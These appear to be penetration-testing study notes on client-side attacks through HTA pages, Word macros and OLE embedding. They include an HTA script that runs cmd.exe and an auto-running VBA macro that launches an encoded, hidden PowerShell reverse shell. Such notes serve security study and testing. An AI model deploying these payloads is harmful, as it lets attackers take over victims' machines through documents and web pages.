







# Java Signed Applets Attack

Automatic Java code execution though applet when visiting a page having Java enabled on the browser


---

# HTML Applications Attack (.hta pages)

If a file is created with the extension of .hta instead of .html , Internet Explorer will automatically interpret it as a HTML Application and offer the ability to execute it using the `mshta.exe` program.

>[!tip]
>The purpose of HTML Applications is to allow arbitrary execution of applications directly from Internet Explorer, rather than downloading and manually running an executable. Since this clashes with the security boundaries in Internet Explorer, an HTML Application is always executed outside of the security context of the browser by the Microsoft-signed binary `mshta.exe`.

```html
<html>
<head>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
self.close();
</script>
</body>
</html>
```





We can also use [msfvenom](../Tools/msfvenom.md) in order to [generate malicious .hta pages](../Tools/msfvenom.md#Generating%20malicious%20.hta%20pages) and gain a reverse shell from the victim visitor.

---

# Microsoft Word - Macros

Macros can be written from scratch in **Visual Basic for Applications** (VBA), which is a fully functional scripting language with full access to ActiveX objects and the Windows Script Host.
Since Office macros are not executed automatically, we must make use of two predefined procedures, namely the `AutoOpen` procedure, which is executed when a new document is opened and the `Document_Open` procedure, which is executed when an already-open document is re-opened.
Both of these procedures can call our custom procedure and therefore run our code.

>[!warning]
>Only `.doc` and `.docm` supports Macro. Avoid using .docx for this kind of attack

```visual-basic
Sub AutoOpen()
   MyMacro
End Sub

Sub Document_Open()
   MyMacro
End Sub

Sub MyMacro()
   Dim Str As String
   '
   ' 255 limit string bypass for the Reverse Shell
   '
   Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
   Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB"
   Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A"
   Str = Str + "EYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEg"
   Str = Str + "ANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEATAAxAFgANgAyACsAY"
   Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB"
   ...
   Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac"
   Str = Str + "AByAGUAcwBzACkADQAKACQAcwB0AHIAZQBhAG0AIAA9ACAATgB"
   Str = Str + "lAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtA"
   Str = Str + "FIAZQBhAGQAZQByACgAJABnAHoAaQBwACkADQAKAGkAZQB4ACA"
   Str = Str + "AJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAVABvAEUAbgBkACgAK"
   Str = Str + "QA="
   
   CreateObject("Wscript.Shell").Run Str
End Sub
```

---

# Microsoft Word - Object Linking and Embedding

Scenario: Embed a Windows batch file inside a Microsoft Word document







>[!warning]
>When files are downloaded from the web, they are opened in "**Protected View**". In order to make them effectively working, users have to exit from the mode clicking on the "Enable editing" button. If Publisher is installed it is possible to perform the same attack over publisher, where protected view does not exists.


---

# Tools

- [Generating malicious .hta pages](../Tools/msfvenom.md#Generating%20malicious%20.hta%20pages)
- BeEF